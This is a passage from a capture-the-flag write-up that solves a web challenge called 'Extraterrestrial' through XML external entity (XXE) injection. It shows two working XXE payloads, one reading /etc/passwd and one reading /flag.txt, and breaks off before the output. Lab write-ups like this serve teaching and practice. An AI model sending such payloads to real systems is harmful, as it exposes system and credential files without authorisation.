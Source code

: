 Flag is `JCTF{spoooooky_ghosts_in_storage}`.

&nbsp;
&nbsp;


## Extraterrestrial
> Have you seen any aliens lately? Let us know!
>
> The flag is at the start of the solar system.

Web page looks like so:

&nbsp;
{{< image src="/img/nahamConCTF2020/xxe_home.png" alt="xxe_home.png" position="center" style="border-radius: 8px;" >}}
&nbsp;

The name of the challenge seems to hint that [maybe we can get XXE](https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/) so I'll try a test payload:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
```

Which works!

&nbsp;
{{< image src="/img/nahamConCTF2020/xxe_pwd.png" alt="xxe_pwd.png" position="center" style="border-radius: 8px;" >}}
&nbsp;

So now we just need to figure out where that flag is... The hint says it's "at the start of the universe" so originally I was thinking it was under some time of big bang directory; but then I thought it was simpler than that:

The start of the solar system is the very first thing, before everything... Which sounds like `/`! I guessed `/flag.txt` and was right!

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
```

gives:
